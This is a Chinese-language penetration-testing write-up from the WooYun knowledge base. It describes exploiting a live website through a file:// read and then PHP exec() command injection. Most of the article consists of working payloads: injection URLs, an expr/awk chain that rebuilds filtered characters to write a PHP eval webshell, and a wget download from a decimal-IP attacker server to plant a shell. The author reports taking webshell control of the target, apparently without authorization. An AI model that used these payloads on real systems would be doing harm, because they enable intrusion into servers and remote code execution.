

# linux 渗透测试技巧 2 则

2014/03/05 12:18 | [Xeyes](http://drops.wooyun.org/author/Xeyes "由 Xeyes 发布") | [漏洞分析](http://drops.wooyun.org/category/papers "查看 漏洞分析 中的全部文章") | 占个座先 | 捐赠作者

## 0x00 背景

* * *

发现一网站存在漏洞，遂进行测试：

这是一个获取网页源码的 cgi 脚本[`xxx.com/cgi-bin/printfile.cgi?file=http://www.baidu.com`](http://xxx.com/cgi-bin/printfile.cgi?file=http://www.baidu.com) 习惯性的,在 file 后面测试 `../../../../../`包含或者读取漏洞均无效.有意思的是使用 File 协议(本地文件传输协议)成功读取目录以及文件。


目标环境是 Red Hat6.5+Apache ，接下来的工作翻翻敏感文件,找找配置文件收集信息定位当前站点路径.


## 0x01 发现突破点

* * *

经过一段搬砖的时间查看，当前站点没有什么可以利用的,同服站点的脚本语言主要以 cgi  perl  为主,少量 php .一贯地毯式搜索可以利用的代码,期间找到不少有执行权限的 cgi 脚本,尝试在浏览器中访问,但是都提示 500 内部错误,这样即使成功运行了也无法得知代码运行状态,只能放弃.又经过一段搬砖的时间,在同服站点的 php 文件中终于让我找到了一行有意思的 php 脚本代码.

```
exec('make -i -f skriptit/Makefile DOT_EXEC=bin/ SCRIPTDIR=skriptit/ PICNAME='.$file.' htmlcheck dot2png dot2png_large dot2pdf');

```

exec() 执行外部程序,只要能控制 PICNAME='.$file.' 中的变量$file,那就有可能执行系统命令.果断保存代码本地测试.

代码分析如下:

```
<html>
<head><title>Content</title>

<link rel="stylesheet" type="text/css" href="style.css"></link>
<link rel="stylesheet" type="text/css" href="styles.css"></link>
<script type="text/javascript" src="common.js"></script><script type="text/javascript" src="css.js"></script><script type="text/javascript" src="standardista-table-sorting.js"></script>
<script type="text/javascript" src="toggle.js">
</script>
<script type="text/javascript">
function updateAppletTarget(q) {
  parent.applet.updateAppletTarget(q);
}
</script>
</head>
<body>
<div id="change">
<?php 

$id="";
if (isset($_POST["id"])) $id=$_POST["id"];         // GET 或 POST 接收输入 id
else if  (isset($_GET["id"])) $id=$_GET["id"];

if (strlen($id)>0) {

// PUBLIC_ID_SEPARATOR
//$id = ereg_replace(":","|",$id);

#$id="tesdts.fdkjfls|fjksldaf.fdsfaa";
#echo $id;

#note: equivalent function is used in fi.jyu.mit.utils.FileLib.java
#$file = ereg_replace("\\||\\.","_",$id);
$file = ereg_replace("\\||\\:|\\.","_",$id);                            //  ereg_replace -- 如果 id 传入数据中包含\|:.,_，则 ereg_replace 正则进入下一个判断。
                                                                        // string ereg_replace ( string pattern, string replacement, string string )

#echo $file;
  if (strpos($file,'\\') !== false                                       // \\strpos 检索$file 中的字符窜是否包含 \\ 则为 false
      or strpos($file,'/') !== false
      or strpos($file,':') !== false) die('Not current directory');      // 提示 Not current directory(非当前目录)

// refresh html file and pics
#    exec('make -f Makefile -C .. PICNAME='.$file.' htmlcheck');
#   exec('make PICNAME='.$file.' htmlcheck');
# die('make -i -f skriptit/Makefile DOT_EXEC=bin/ SCRIPTDIR=skriptit/ PICNAME='.$file.' htmlcheck dot2png dot2png_large dot2pdf');
   exec('make -i -f skriptit/Makefile DOT_EXEC=bin/ SCRIPTDIR=skriptit/ PICNAME='.$file.' htmlcheck dot2png dot2png_large dot2pdf');  # $file 往上看
#exec('make PICNAME='.$file.' dot2png dot2png_large dot2pdf');

if ((!file_exists("html/".$file.".html")) || (filesize("html/".$file.".html")==0)) {
    echo "päivitetään "."html/".$file.".html";
?>
<script type="text/javascript">
 updateAppletTarget('<?php echo $id ?>');
</script>
<?php  }
else readfile("html/".$file.".html");  

}

?>
<!-- disabled temporirarily 
<a href="#" onclick="updateAppletTarget('edit');return false;">Muokkaa</a>
-->
</div>
</body>
</html>

```

下图是本地测试，被过滤的字符：

```
 $file = ereg_replace("\\||\\:|\\.","_",$id);   

```

这里的| 以及.都被替换成 _(下横)出现 `// \\` 路径符号则提示 Not current directory(非当前目录)


```
die('make -i -f skriptit/Makefile DOT\_EXEC=bin/ SCRIPTDIR=skriptit/ PICNAME='.$file.' htmlcheck dot2png dot2png\_large dot2pdf'); 

```

die 打印结果看看：



打印结果可以得知

```
aaaaa, '` 
```

都能带入而且;(分号)也成功执行那么就有意思了,构造语句就是:

```
http://localhost/test.php?id=aaaa;echo test >aaa 
```

成功写入当前目录.


当然,还可以执行命令,也同样把命令执行结果写入文件得到回显.

```
http://localhost/test.php?id=aaaa;id >aaa; 
```

注意末尾多加了一个;(分号)截断了后面多余的东西.


接下就是写 shell，理清一下思路:

```
$file = ereg_replace("\\||\\:|\\.","_",$id); 

```

| 以及.都被替换成 _(下横)，出现 `// \\` 路径符号则提示 Not current directory(非当前目录)，写 shell 需要.(点)加后缀 ,如果直接写文件

```
http://localhost/test.php?id=aaaa;echo <?php eval($_REQUEST[v]);?> >zzz.php 
```

那么得到的文件名是 zzz_php,这里也不能用\ 来转义.


小伙伴们可能会说,妈蛋,不是还能下载文件吗. 代码这样写

```
http://localhost/test.php?id=aaaa;wget www.ccav.com/shell.php 
```

那么得到的结果是:

```
Not current directory 
```

因为包含了.(点)跟路径符号.

## 0x02 绕过方式

* * *

到这得考虑如何绕过过滤分别使用两个方法得 shell.

```
1 如何 echo 写 shell 
2.如何通过下载得 shell 
```

### 第一种方法：

如何 echo 写 shell,以写一句话 PHP 木马为例,主要解决的是.(点)的问题,$(美元符号),以及>(管道符号)和括号.我这里使用的方法是”借花献佛”

echo 完整的语句如下:

```
echo <?php eval($_REQUEST[v]);?> >test.php

```

既然不能生成那就 ”借”,直接借现有文件中的字符.可以从变量中借或者从现有的文件中借.用到的方法是 linux Shell expr 的方法.

如下图,打印了 test.php 文件中第一行的 6 个字符，要做的就是把需要的字符都从文件中借过来。(示例的 test.php 就是漏洞文件本身)


接下来就是体力活了,要把一句话木马中所有被过滤的字符都依次借过来. 要注意的是,读取字符的间隔貌似不能包含空格,否则 expr 会判断列数错误.

```
root@Google:/var/www# echo `expr substr $(awk NR==20 test.php) 5 1`

"

root@Google:/var/www# echo `expr substr $(awk NR==20 test.php) 1 1`

$

root@Google:/var/www# echo `expr substr $(awk NR==1 test.php) 1 1`

<

root@Google:/var/www# echo `expr substr $(awk NR==1 test.php) 6 1`
>
root@Google:/var/www# expr substr $(awk NR==11 test.php) 35 1

)

root@Google:/var/www# expr substr $(awk NR==11 test.php) 33 1

(

root@Google:/var/www# expr substr $(awk NR==20 test.php) 7 1

;

root@Google:/var/www# expr substr $(awk NR==17 test.php) 2 1

? 
```

最后总算凑够数了,完整的语句是:

```
echo `expr substr $(awk NR==1 test.php) 1 1`?php eval`expr substr $(awk NR==11 test.php) 33 1``expr substr $(awk NR==20 test.php) 1 1`_REQUEST[v]`expr substr $(awk NR==11 test.php) 35 1``expr substr $(awk NR==20 test.php) 7 1``expr substr $(awk NR==17 test.php) 2 1``expr substr $(awk NR==1 test.php) 6 1` >2`expr substr $(awk NR==30 test.php) 13 1`php 
```

在 shell 下成功执行


到这里马上就能拿到 shell 了,用不了多久，我就会升职加薪，当上总经理，出任 CEO，迎娶白富美，走上人生巅峰。想想还有点小激动呢，嘿嘿~~ 


我擦,这怎么玩......在测试环境上执行出现的结果,万万没想到最终还是有.(点),因为读 test.php 文件,还是需要带后缀. 你妹啊.....


又回到点的问题.这次直接 ls >xxx 把当前目录下的文件(目录文件带了后缀)都写入 xxx，然后在从 xxx 中借.(点)，替换原先的语句。

```
http://localhost/test.php?id=aaaa;ls >xxx; 
```

以我本地环境为例,xxx 文件的第 1 行第 2 列（2.php）的字符就是.(点)


将原来语句中的 test.php 的.(点) 都替换成 

```
`expr substr $(awk NR==1 xxx)  2 1` 
```

原语句：

```
echo `expr substr $(awk NR==1 test.php) 1 1`?php eval`expr substr $(awk NR==11 test.php) 33 1``expr substr $(awk NR==20 test.php) 1 1`_REQUEST[v]`expr substr $(awk NR==11 test.php) 35 1``expr substr $(awk NR==20 test.php) 7 1``expr substr $(awk NR==17 test.php) 2 1``expr substr $(awk NR==1 test.php) 6 1` >2`expr substr $(awk NR==30 test.php) 13 1`php 
```

改为:

```
echo `expr substr $(awk NR==1 test`expr substr $(awk NR==1 xxx)  2 1`php) 1 1`?php eval`expr substr $(awk NR==11 test`expr substr $(awk NR==1 xxx)  2 1`php) 33 1``expr substr $(awk NR==20 test`expr substr $(awk NR==1 xxx)  2 1`php) 1 1`_REQUEST[v]`expr substr $(awk NR==11 test`expr substr $(awk NR==1 xxx)  2 1`php) 35 1``expr substr $(awk NR==20 test`expr substr $(awk NR==1 xxx)  2 1`php) 7 1``expr substr $(awk NR==17 test`expr substr $(awk NR==1 xxx)  2 1`php) 2 1``expr substr $(awk NR==1 test`expr substr $(awk NR==1 xxx)  2 1`php) 6 1` >2`expr substr $(awk NR==30 test`expr substr $(awk NR==1 xxx)  2 1`php) 13 1`php 
```

执行出现了语法错误.


换一个思路,原来绕了个大弯路.直接`cat test.php > xxoo` 就解决了. 不过这样还是过滤成了 test_php，只能先从 xxx 把点借过来.

语句:

```
cat test`expr substr $(awk NR==2 xxx) 6 1`php >xxoo 
```

这样把 test.php 写入 xxoo 文件就 ok 了

最后把 test.php 全部改成 xxoo 就解决了点的限制

原语句：

```
echo `expr substr $(awk NR==1 test.php) 1 1`?php eval`expr substr $(awk NR==11 test.php) 33 1``expr substr $(awk NR==20 test.php) 1 1`_REQUEST[v]`expr substr $(awk NR==11 test.php) 35 1``expr substr $(awk NR==20 test.php) 7 1``expr substr $(awk NR==17 test.php) 2 1``expr substr $(awk NR==1 test.php) 6 1` >2`expr substr $(awk NR==30 test.php) 13 1`php 
```

修改后:

```
echo `expr substr $(awk NR==1 xxoo) 1 1`?php eval`expr substr $(awk NR==11 xxoo) 33 1``expr substr $(awk NR==20 xxoo) 1 1`_REQUEST[v]`expr substr $(awk NR==11 xxoo) 35 1``expr substr $(awk NR==20 xxoo) 7 1``expr substr $(awk NR==17 xxoo) 2 1``expr substr $(awk NR==1 xxoo) 6 1` >2`expr substr $(awk NR==30 xxoo) 13 1`php 
```

测试环境成功执行:

```
http://localhost/test.php?id=anything;echo `expr substr $(awk NR==1 xxoo) 1 1`?php eval`expr substr $(awk NR==11 xxoo) 33 1``expr substr $(awk NR==20 xxoo) 1 1`_REQUEST[v]`expr substr $(awk NR==11 xxoo) 35 1``expr substr $(awk NR==20 xxoo) 7 1``expr substr $(awk NR==17 xxoo) 2 1``expr substr $(awk NR==1 xxoo) 6 1` >2`expr substr $(awk NR==30 xxoo) 13 1`php; 
```


最终成功写入完整的 php 一句话木马.拿下目标 webshell 权限.


### 总结步骤：

#### 1)

```
ls >xxx ，cat xxx    //先找点，得到.的行列数。 
```

#### 2)

```
Cat  test.`expr substr $(awk NR==1 xxx)  2 1`php  > xxoo  //将 test.php 写入 xxoo 文件，方便后面读取。 
```

#### 3)

```
echo `expr substr $(awk NR==1 xxoo) 1 1`?php eval`expr substr $(awk NR==11 xxoo) 33 1``expr substr $(awk NR==20 xxoo) 1 1`_REQUEST[v]`expr substr $(awk NR==11 xxoo) 35 1``expr substr $(awk NR==20 xxoo) 7 1``expr substr $(awk NR==17 xxoo) 2 1``expr substr $(awk NR==1 xxoo) 6 1` >2`expr substr $(awk NR==30 xxoo) 13 1`php;     //所需的字符从替换成 xxoo 文件中的字符。 
```

### 第二种方法:

通过下载文件得到 shell,这种方法要省事很多,要解决的关键还是.(点),还有//(路径符).(点)的解决可以用数字 IP 的方法绕过.

需要条件:

```
外网能用 ip 访问的 webserver,以及目标存在 wget 程序和当前目录有写文件权限。 
```

在线转换链接:

```
http://tool.chinaz.com/ip/?IP=127.0.0.1 
```


以本机为例（ubuntu +apache2:）

```
1.先转换得到数字 ip  127.0.0.1 = 2130706433 
2.将外网的服务器的 php 解析去掉,在 apache 配置文件中将下面参数注释 
#LoadModule php5_module /usr/lib/apache2/modules/libphp5.so 
3.在根目录创建 index.html 文件,内容为`<a href="shell.php">test</a>`，创建 shell.php 内容是马. 
4.使用 wget 整站下载功能下载（wget 自动沿着 href 指向爬到 shell.php 并下载） 
Ps:貌似用 301 跳转也可以,不过我没有测试 
```

参数: wget -r 2130706433  

效果如下图，下载后以目录结构的方式保存文件得到 shell。


## 0x03 最后

* * *

欢迎大家指正错误或纰漏，以此文为例，希望大家分享一些 linux shell 下绕过字符过滤写 shell 的方法，

最后感谢月哥悉心的指导。

版权声明：未经授权禁止转载 [Xeyes](http://drops.wooyun.org/author/Xeyes "由 Xeyes 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [理解 php 对象注入](http://drops.wooyun.org/papers/4820)
*   [WordPress < 3.6.1 PHP 对象注入漏洞](http://drops.wooyun.org/papers/596)
*   [Shellshock 漏洞回顾与分析测试](http://drops.wooyun.org/papers/3268)
*   [Json hijacking/Json 劫持漏洞](http://drops.wooyun.org/papers/42)
*   [WordPress 3.5.1 远程代码执行 EXP](http://drops.wooyun.org/papers/785)
*   [PHP Session 序列化及反序列化处理器设置使用不当带来的安全隐患](http://drops.wooyun.org/tips/3909)